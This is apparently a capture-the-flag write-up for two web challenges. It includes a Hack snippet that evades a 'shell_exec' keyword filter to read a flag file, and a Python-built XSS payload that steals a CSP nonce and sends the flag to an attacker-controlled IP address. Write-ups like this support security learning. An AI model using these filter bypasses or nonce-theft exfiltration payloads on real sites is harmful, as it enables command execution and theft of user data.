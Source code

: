 The server also has a lots of keyword filter. For instance, the source code cannot contain `shell_exec`. However this is trivial to bypass as PHP is a pretty dynamic language.

```
<?hh                                                                                                                                     
<<__EntryPoint>>                                                                                                                         
function main(): void {
  echo call_user_func("shell_\x65xec","cat \x2fvar\x2fwww\x2f*lag* 1>&2");
}
```

Flag: `p4{h4x0riN9_7H3_H4ck}`

### Yet Another Cat Challenge

This is a XSS challenge and flag is in `/flag` (JSONP script endpoint). However, strict CSP is deployed:

```
default-src 'none'; form-action 'self'; frame-ancestors 'none'; style-src https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css; img-src 'self'; script-src 'nonce-GXj7n92IV_gjalKGExKGCg' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/; frame-src https://www.google.com/recaptcha/
```

So we cannot just `fecth("/flag")` and read the content. We have to somehow inject `<script src="/flag">` with valid nonce.

On one of the page, we have an XSS endpoint. The payload is inside `<script>` block so we don't have to worry about nonce.

We just retrieve the nonce through `document.querySelector("script").nonce;` and use `document.write` to load the flag.

The attack steps:

1. Redirect admin to our page using `</script><meta http-equiv="refresh" content=...`
2. Redirect admin to the DOM XSS page `note/UUID?theme=XSS_PAYLOAD`
3. Retrieve the nonce and load the flag
4. Javascript redirection `location=` the exfiltrate the flag

```python
#!/usr/bin/env python3
import requests
from base64 import b64encode
from urllib.parse import quote
def replace(x):
    for old, new in [
        ('"', '\\x22'),
        ('<', '\\x3c'),
        ('>', '\\x3e'),
        ('\n', ''),
        ]:
        x = x.replace(old, new)
    return x
payload = quote(replace('''
nonce=document.querySelector(`script`).nonce;
document.write(`<script nonce="${nonce}" src="/flag?var=flag"></script>
<script nonce="${nonce}">location="//133.221.333.123:1337/flag.html?"+btoa(flag)</script>`);
'''))
redirect_url = 'http://yacc.zajebistyc.tf/note/b02e8d7d-be2a-455d-8eeb-2d0db6194a95?theme=' + payload
print(redirect_url)

# cat type payload
print(f'</script><meta http-equiv="refresh" content="0;url=http://133.221.333.123:1337" />'.replace('"', '&quot;'))
```